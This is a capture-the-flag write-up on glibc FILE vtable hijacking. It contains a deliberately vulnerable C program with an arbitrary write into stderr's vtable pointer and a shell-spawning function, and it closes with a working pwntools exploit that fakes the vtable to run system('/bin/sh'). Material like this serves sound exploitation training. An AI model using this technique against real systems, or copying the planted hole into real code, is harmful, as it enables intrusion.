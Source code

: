 ```yaml
---
title: "IO_File Vtable - CTF"
tags:
  - Pwn
  - CTF 
  - IO_File
---
```


This is a problem based on_IO_file Vtable.


# Introduction

The file stream feature (FILE) in Linux. We can see that some common IO operation functions in Linux need to be processed through the FILE structure. In particular, there is a vtable in the *_IO_FILE_plus* structure, and some functions will fetch the pointers in the vtable for calling.

Therefore, the central idea of the fake vtable hijacking process is to implement the vtable of _IO_FILE_plus by pointing the vtable to the memory we control and placing the function pointer in it.

Therefore, vtable hijacking is divided into two types. One is to directly rewrite the function pointer in the vtable, which can be realized by writing at any address. The other is to overwrite the vtable pointer to the memory we control, and then arrange the function pointer in it.

*_IO_FILE* The structure is as follows:

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```


# Vulnerable Source Code 

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char name[8];
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    int idx = 0;
    int sel;

    initialize();

    printf("what is your name: ");
    read(0, name, 8);
    while(1) {
        printf("1. print\n");
        printf("2. error\n");
        printf("3. read\n");
        printf("4. chance\n");
        printf("> ");

        scanf("%d", &sel);
        switch(sel) {
            case 1:
                printf("GOOD\n");
                break;
            case 2:
                fprintf(stderr, "ERROR\n");
                break;
            case 3:
                fgetc(stdin);
                break;
            case 4:
                printf("change: ");
                read(0, stderr + 1, 8);
                break;
            default:
                break;
            }
    }
    return 0;
}
```

# Analysis 

The key vulnerability lies in the read(0, stderr + 1, 8) call in case 4 of the switch statement. This allows the attacker to overwrite 8 bytes of memory starting at stderr + 1, which is the address of the _IO_file_jumps vtable.

![](image.png)

from the gdb we notice that The value that is added to stderr by 0xd8 is used as a parameter of the read function 

![alt text](image-1.png)

Okey so *stderr+1* received from read is the address of the *vtable*. (To be exact, it is the address of *_IO_file_jumps*.) Then, the read function will add the _vtable_offset value in its structure to _IO_file_jumps and refer to the necessary function and we can execute the desired function by inserting a fake vtable address through :

```c 
read(0, stderr + 1, 8); 
```


![jumps](image-2.png)

We can change the address of the vtable in the read function. 
In the case of the frpintf function (fwrite), the *_IO_new_file_xsputn* function is called, and the *_vtable_offset* set at that time is 0x38 when the *fprintf()* function is called, it calls the address of __xsputn at offset 0x38 of _IO_file_jumps. 

```python
from pwn import *
context.update(arch='amd64', os='linux')
context.log_level = 'debug'
p = process("./iofile_vtable")
elf = ELF("./iofile_vtable")
libc = ELF("./libc-2.27.so")

get_shell = 0x40094a
fake__xsputn = 0x6010d0-0x38

p.sendlineafter(b"what is your name: ", p64(get_shell))
pause()

p.sendlineafter(b"> ", b"4")
p.sendlineafter(b"change: ", p64(fake__xsputn))
p.sendlineafter(b"> ", b"2")

p.interactive()
```

To exploit this vulnerability, we need to understand the structure of the _IO_FILE object and the _IO_file_jumps vtable.
The _IO_FILE structure contains a _vtable_offset field, which is used to index into the _IO_file_jumps vtable. When functions like *fprintf()* or *fwrite()* are called on the _IO_FILE object, they use this offset to call the corresponding function pointer in the vtable.

By overwriting the _IO_file_jumps vtable with our own values, we can hijack the control flow and execute arbitrary code. Specifically, we can overwrite the __xsputn function pointer (at offset 0x38 in the vtable) with the address of the *get_shell()* function, and overwrite the address of the name variable (minus 0x38) as the new vtable pointer.

